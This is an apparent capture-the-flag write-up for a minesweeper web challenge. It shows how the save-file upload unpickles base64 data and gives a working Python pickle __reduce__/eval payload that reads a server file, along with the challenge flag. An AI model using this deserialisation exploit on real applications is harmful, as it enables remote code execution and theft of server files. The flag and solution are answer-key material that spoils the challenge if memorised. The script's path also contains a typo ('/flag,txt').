

# Sweeper

Author: Tsuto

## Description

A classic minesweeper clone with a twist.

## Solution

This minesweeper clone has a RCE vulnerability on the upload function. The save file is a base64 encoded pickle object. This can be Identified by the first 2 bytes being 0x80 and 0x04. 0x80 is typically the first byte in pickled data with the second byte, 0x04, being the protocol number.

In the pickled data, the `game_id` is vulnerable to code injection. Using python `open('/flag.txt').read()`, it is possible to read the flag and have it print to the web console.

Loading the resulting pickle file will successfully exploit the web app and print the flag.



Flag: `USCG{f1ag5_4r3_a11_m1n3}`

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return(eval, ("{'game_id':open('/flag,txt').read()}",))

pickled = pickle.dumps(RCE())

f = open('exploit.save', 'wb')
f.write(base64.urlsafe_b64encode(pickled))
f.close()
```

